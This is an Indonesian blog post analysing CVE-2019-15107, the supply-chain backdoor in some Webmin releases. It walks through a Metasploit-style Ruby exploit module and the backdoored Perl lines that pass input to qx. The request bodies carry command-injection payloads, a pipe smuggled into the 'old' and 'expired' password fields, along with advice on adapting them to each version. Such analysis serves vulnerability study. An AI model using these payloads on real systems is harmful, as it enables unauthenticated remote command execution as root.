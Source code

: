 ```yaml
---
layout: ../../layouts/post.astro
title: "Analisis CVE-2019-15107"
pubDate: 2024-09-19
description: "Analisa CVE-2019-15107 dengan melihat source code dari versi terdampak."
author: "natanhp"
excerpt: "Analisa tentang CVE-2019-15107 tentang Supply Chain Attack yang menyerang Webmin versi 1.890 dan 1.900 - 1.920. Pembahasan dilakukan dengan cara menelusuri alur payload dan penjelasan tentang kode mana yang ditarget oleh langkah-langkah tersebut."
image:
  src:
  alt:
tags: ["Cyber Security"]
---
```


Berkaitan dengan write up saya pada mesin [VulnHub Source: 1](/posts/vulnhub_source_1_write_up), saya akan mencoba melakukan analisa tentang CVE dan exploit yang ada. Sebelumnya, CVE ini muncul karena Supply Chain Attack (Baca: [Supply Chain Attack: Pelajaran untuk Software Engineer](/posts/supply_chain_attack)) yang berdampak pada versi 1.890 dan 1.900 - 1.920. Release yang terdampak juga hanya yang dipublish di SourceForge, saya cek di GitHub repository isinya normal.

Sekarang saya coba untuk membahas setiap langkah pada exploit tersebut, file yang dibahas di sini adalah `password_change.cgi` yang digunakan sebagai entry point.
## 1. Check Password Change Privilege
```ruby
def check
    # check passwd change priv
    res = send_request_cgi({
      'uri'     => normalize_uri(target_uri.path, "password_change.cgi"),
      'headers' =>
        {
          'Referer' => "#{peer}/session_login.cgi"
        },
      'cookie'  => "redirect=1; testing=1; sid=x; sessiontest=1"
    })

    if res && res.code == 200 && res.body =~ /Failed/
      res = send_request_cgi(
        {
        'method' => 'POST',
        'cookie' => "redirect=1; testing=1; sid=x; sessiontest=1",
        'ctype'  => 'application/x-www-form-urlencoded',
        'uri' => normalize_uri(target_uri.path, 'password_change.cgi'),
        'headers' =>
          {
            'Referer' => "#{peer}/session_login.cgi"
          },
        'data' => "user=root&pam=&expired=2&old=AkkuS%7cdir%20&new1=akkuss&new2=akkuss"        
        })

      if res && res.code == 200 && res.body =~ /password_change.cgi/
        return CheckCode::Vulnerable
      else
        return CheckCode::Safe
      end
    else
      return CheckCode::Safe
    end
  end
```
Pada versi 1.900 - 1.920, terdapat pengecekan apakah ada restriksi untuk penggantian password, yang confignya terdapat pada `passwd_mode` di file `/etc/webmin/minserv.conf`. Jika value pada config tersebut diset menjadi 2, exploit tidak akan bekerja pada versi ini.
```perl
&get_miniserv_config(\%miniserv);
$miniserv{'passwd_mode'} == 2 || die "Password changing is not enabled!";
```
Selain itu, yang perlu diperhatikan adalah header yang digunakan. Karena terdapat validasi header `Referer` pada file `web-lib-funcs.pl`, sehingga pada saat request perlu menggunakan header `'Referer' => "#{peer}"` dengan nilai host yang sama dengan host service, tidak perlu juga harus persis dari alamat `#{peer}/session_login.cgi`. Jika tidak, akan ada error yang seperti ini:
```html
<!DOCTYPE html>
<html data-host="192.168.75.128:10000" data-hostname="source" data-title-initial="Security Warning" data-debug="0" data-session="0" data-script-name="/password_c
hange.cgi" data-background-style="gainsboro" data-night-mode="0" data-high-contrast="0" data-navigation-collapsed="0" data-slider-fixed="0" data-sestatus="0" dat
a-shell="0" data-webmin="0" data-usermin="0" data-navigation="0" data-status="0" data-package-updates="0" data-csf="0" data-theme="blue" data-default-theme="blue
" data-theme-version="19.19" data-theme-mversion="11"  data-level="0" data-user-home="/root" data-user-id="0" data-user="" data-dashboard="1" data-ltr="1" data-l
anguage="en" data-language-full="en" data-charset="UTF-8" data-notice="0" data-redirect="" data-initial-wizard="1" data-webprefix="" data-current-product="webmin
" data-module="" data-uri="/password_change.cgi" data-progress="1" data-product="webmin" data-access-level="0">
 <head>
 <noscript> <style> html[data-background-style="gainsboro"] { background-color: #d6d6d6; } html[data-background-style="nightRider"] { background-color: #1a1c20; 
} html[data-background-style="nightRider"] div[data-noscript] { color: #979ba080; } html[data-slider-fixed='1'] { margin-right: 0 !important; } body > div[data-n
oscript] ~ * { display: none !important; } div[data-noscript] { visibility: hidden; animation: 2s noscript-fadein; animation-delay: 1s; text-align: center; anima
tion-fill-mode: forwards; } @keyframes noscript-fadein { 0% { opacity: 0; } 100% { visibility: visible; opacity: 1; } } </style> <div data-noscript> <div class="
fa fa-3x fa-exclamation-triangle margined-top-20 text-danger"></div> <h2>JavaScript is disabled</h2> <p>Please enable javascript and refresh the page</p> </div> 
</noscript>
 <meta charset="UTF-8">
 <title>Security Warning</title>
 <link rel="shortcut icon" href="/images/favicon-webmin.ico">
 <meta name="viewport" content="width=device-width, initial-scale=1.0">
 <link href="/unauthenticated/css/bundle.min.css?1919999999999911" rel="stylesheet">
 <link href="/unauthenticated/css/fonts-roboto.min.css?1919999999999911" rel="stylesheet">
 <script src="/unauthenticated/js/bundle.min.js?1919999999999911"></script>
</head>
<body data-uri="/password_change.cgi">
 <div class="container-fluid col-lg-10 col-lg-offset-1" data-dcontainer="1">
<div class="panel panel-default">
<div class="panel-heading">
<table class="header"><tr>
<td id="headln2l" class="invisible"></td>
<td id='headln2c'><span data-main_title>Security Warning</span></td>
<td id="headln2r"></td></tr></table>
</div>
<div class="panel-body">
<b>Warning!</b> Webmin has detected that the program <tt>https://192.168.75.128:10000/password_change.cgi</tt> was linked to from the URL <tt>https://google.om</
tt>, which appears to be outside the Webmin server. This may be an attempt to trick your server into executing a dangerous command.<p>
If this is a legitimate link, you can allow links from this URL as follows :<ul><li>Login to Webmin normally.<li>Go to the <b>Webmin Configuration</b> module.<li
>Click on the Trusted Referrers icon.<li>Enter the hostname 192.168.75.128 into the <b>Trusted websites</b> field, and click <b>Save</b>.</ul><p>
Alternately, you can configure Webmin to allow this link from the command line by :<ul><li>Login as <tt>root</tt>, and edit the <tt>/etc/webmin/config</tt> file.
<li>Add the line <tt>referers=192.168.75.128</tt> at the end, or if a <tt>referers</tt> line already exists add <tt>192.168.75.128</tt> to it.<li>Save the file.<
/ul><p>
```
## 2. Exploiting
```perl
 ##
  # Exploiting phase
  ##
  def exploit

    unless Exploit::CheckCode::Vulnerable == check
      fail_with(Failure::NotVulnerable, 'Target is not vulnerable.')
    end

    command = payload.encoded
    print_status("Attempting to execute the payload...")
    handler
    res = send_request_cgi(
      {
      'method' => 'POST',
      'cookie' => "redirect=1; testing=1; sid=x; sessiontest=1",
      'ctype'  => 'application/x-www-form-urlencoded',
      'uri' => normalize_uri(target_uri.path, 'password_change.cgi'),
      'headers' =>
        {
          'Referer' => "#{peer}/session_login.cgi"
        },
      'data' => "user=root&pam=&expired=2&old=AkkuS%7c#{command}%20&new1=akkuss&new2=akkuss"
      })

  end
```

Di sini exploit memanfaatkan fungsi `qx` pada Perl yang digunakan untuk mengeksekusi system command. Terdapat perbedaan antara versi 1.890 dan 1.900 - 1.920. Pada versi 1.890, fungsi `qx` akan menjalankan command pada parameter `expired`. Jadi dari request yang disediakan bisa diganti saja paramter `old` dengan `expired` seperti ini `user=root&pam=&expired=AkkuS%7c#{command}%20&new1=akkuss&new2=akkuss`.
```perl
$in{'expired'} eq '' || die $text{'password_expired'},qx/$in{'expired'}/;
```
Pada versi 1.900 - 1.920 command akan dieksekusi dari parameter `old`, sehingga seharusnya tidak perlu lagi ada parameter `expired` pada request.
```perl
$enc eq $wuser->{'pass'} || &pass_error($text{'password_eold'},qx/$in{'old'}/);
```

Sumber:
- https://www.exploit-db.com/exploits/47230
- https://sourceforge.net/projects/webadmin/files/webmin/
